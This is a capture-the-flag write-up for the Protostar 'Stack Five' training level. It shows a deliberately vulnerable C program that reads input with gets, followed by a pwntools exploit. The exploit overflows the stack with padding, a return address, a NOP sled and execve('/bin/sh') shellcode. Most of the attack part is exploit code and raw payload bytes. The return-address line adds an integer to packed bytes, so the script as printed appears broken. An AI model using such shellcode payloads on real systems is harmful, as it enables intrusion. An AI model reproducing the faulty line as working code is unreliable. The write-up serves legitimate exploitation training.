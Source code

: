 # Stack Five

## Description

Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

* At this point in time, it might be easier to use someone elses shellcode
* If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
* remove the int3s once your shellcode is done.

## Source code

```cpp
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

## Exploit code

```python
from pwn import *

def execve():
    # constraints:  eax = 0x0b
    #               ebx = ptr -> '/bin/sh\x00'
    #               ecx = edx = 0
    # return a shellcode of `execve('/bin/sh\x00', 0, 0)`

    shellcode = """
        mov eax, 0x0b
        push 0x0068732f   
        push 0x6e69622f  
        mov ebx, esp    
        xor ecx, ecx    
        xor edx, edx    
        int 0x80        
    """

    return asm(shellcode)

# execve() -> shellcode = "\xb8\x0b\x00\x00\x00h/sh\x00h/bin\x89\xe31\xc91\xd2\xcd\x80"
payload =  "A"*76
payload += p32(0xbffff850) + 0x30                                           # somewhere between nop
payload += "\x90\x90\x90\x90" * 0x100                                       # nop
payload += "\xb8\x0b\x00\x00\x00h/sh\x00h/bin\x89\xe31\xc91\xd2\xcd\x80"    # shellcode
print(payload)
```

Level passed!

<p align="center">
    <img src="./done.png">
</p>